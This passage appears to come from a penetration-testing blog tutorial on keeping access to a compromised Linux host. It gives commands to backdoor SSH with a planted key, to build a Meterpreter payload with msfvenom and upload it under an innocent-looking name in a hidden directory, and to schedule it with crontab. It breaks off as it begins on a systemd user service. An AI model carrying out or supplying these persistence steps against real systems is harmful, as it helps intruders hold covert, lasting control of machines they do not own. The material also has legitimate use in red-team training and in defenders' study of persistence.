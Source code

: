 After creating the key, we should add the public part of the key into `authorized_keys`  file and copy the private part into our machine.
```
cat id_rsa.pub >> authorized_keys
cat id_rsa
```

![](http://news.baycode.eu/wp-content/uploads/2023/09/3-1.png)

Now it is time to log into the SSH service, delete the created keys, and kill the reverse shell. It is important to kill the reverse shell only after we've established another control channel.

```
ssh -i <user>@<ip>
rm .ssh/id_rsa .ssh/id_rsa.pub
```

![](http://news.baycode.eu/wp-content/uploads/2023/09/4-2.png)

## Persistence via malware

Additionally to backdooring the SSH service, let's create a Meterpreter payload and upload it into the machine. The payload should be named in a way so it is innocent looking.

```
msfvenom -a 64 -p <payload> -f <binary type> LPORT=<port> -o <name>
scp -i <key> <file> <user>@<ip>:
```

![](http://news.baycode.eu/wp-content/uploads/2023/09/5-1.png)

## Crontab

Moving forward, we'll create the .config/.node directory, copy the executable into there and change the permissions to make it executable.
```
mkdir ./.config/.node
mv node-builder ./.config/.node/
cd ./.config/.node
chmod 755 node-builder
```
![](http://news.baycode.eu/wp-content/uploads/2023/09/6-1.png)

After uploading the backdoor, our next step is to create a crontab entry to run it each 8 hours.
```
crontab -e
0 8 * * * /home/node-api/.config/.node/node-builder
```
![](http://news.baycode.eu/wp-content/uploads/2023/09/7-1.png)

## User Service

Let's add another way of executing the trojan - create a user service. On Linux running systemd, we can create a directory '.config/systemd/user', save services in there, and then enable them.
